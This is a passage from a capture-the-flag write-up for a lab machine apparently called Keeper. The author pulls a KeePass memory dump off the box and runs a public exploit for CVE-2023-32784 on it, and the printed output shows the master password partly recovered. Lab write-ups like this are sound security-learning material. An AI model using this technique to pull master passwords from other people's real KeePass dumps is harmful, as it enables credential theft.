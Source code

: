 ## Privlege Escalation To Root

Now that we have access to a user account on the box, let's see what is in that user's homes directory:

```bash
lnorgaard@keeper:~$ ll
total 332852
drwxr-xr-x 5 lnorgaard lnorgaard      4096 Oct  2 21:48 ./
drwxr-xr-x 3 root      root           4096 May 24 16:09 ../
lrwxrwxrwx 1 root      root              9 May 24 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard       220 May 23 14:43 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard      3771 May 23 14:43 .bashrc
drwx------ 2 lnorgaard lnorgaard      4096 May 24 16:09 .cache/
drwx------ 3 lnorgaard lnorgaard      4096 Oct  2 21:48 .gnupg/
-rwxr-x--- 1 lnorgaard lnorgaard 253395188 May 24 12:51 KeePassDumpFull.dmp*
-rwxr-x--- 1 lnorgaard lnorgaard      3630 May 24 12:51 passcodes.kdbx*
-rw------- 1 lnorgaard lnorgaard       807 May 23 14:43 .profile
-rw-r--r-- 1 root      root       87391651 Oct  2 22:48 RT30000.zip
drwx------ 2 lnorgaard lnorgaard      4096 Jul 24 10:25 .ssh/
-rw-r----- 1 root      lnorgaard        33 Oct  2 19:34 user.txt
-rw-r--r-- 1 root      root             39 Jul 20 19:03 .vimrc
```

The three thing of interest are the KeePass dump file, the passcodes db file, and the RT30000.zip file since they are non-standard files to see in a home directory.
First I will pull down the zip file to see its contents.

```bash
scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip .
```

Unziping this file gets us the 2 other files that we saw on the box (KeePassDumpFull.dmp & passcodes.kdbx). So no need to pull those to our machine now. A quick google search about how to read/de-obfuscate KeePass dump files returned the following CVE, https://nvd.nist.gov/vuln/detail/CVE-2023-32784.

This CVE goes into how for KeePass 2.54 and earlier, you can read the master password file from a KeePass dump file. This also only works for files associated with the .NET version of KeePass and other versions such as KeePassXC are not impacted.

There also happens to be an exploit available on GitHub that we can most likely leverage to get the master credentials from this dump file, and it can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2023-32784).

Running this exploit is pretty easy, just do the following:

```bash
(h0ax㉿kracken)-[~/htb/boxes/easy/keeper]
└─$ python3 exp.py -d KeePassDumpFull.dmp  
2023-10-02 16:43:33,341 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```
